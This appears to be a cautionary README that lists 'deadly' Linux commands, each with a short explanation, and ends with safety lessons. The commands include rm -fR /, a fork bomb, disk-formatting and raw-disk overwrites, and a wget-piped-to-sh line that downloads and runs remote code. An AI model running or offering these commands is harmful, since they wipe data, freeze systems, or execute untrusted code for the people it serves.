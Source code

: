 :bomb: Suicide Linux
=====================

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

Some of these commands need administration rights (e.g. sudo ...) to be executed, some Linux distributions enforce specific protection mechanisms. So it is not so simple to destroy your Linux machine, but pay attention in any case. 

## :warning: Warning!! :warning:
> Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


#### :one: Wipeout!

`rm -fR /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### :two: Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.

More simple, but same effects:

`perl -e 'fork while true;'`


#### :three: Tabula rasa

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### :four: Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### :five: Collecting Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### :six: Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### :seven: Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### :eight: No More Busy

`find / -name busybox -exec rm -f {} \;`

#### :nine: Kernel, Don't Panic

`cat /dev/port`

The simplest way to freeze your system.


## :pencil: Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content
* there should be a good reason if your administrator password is requested 


## :books: References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
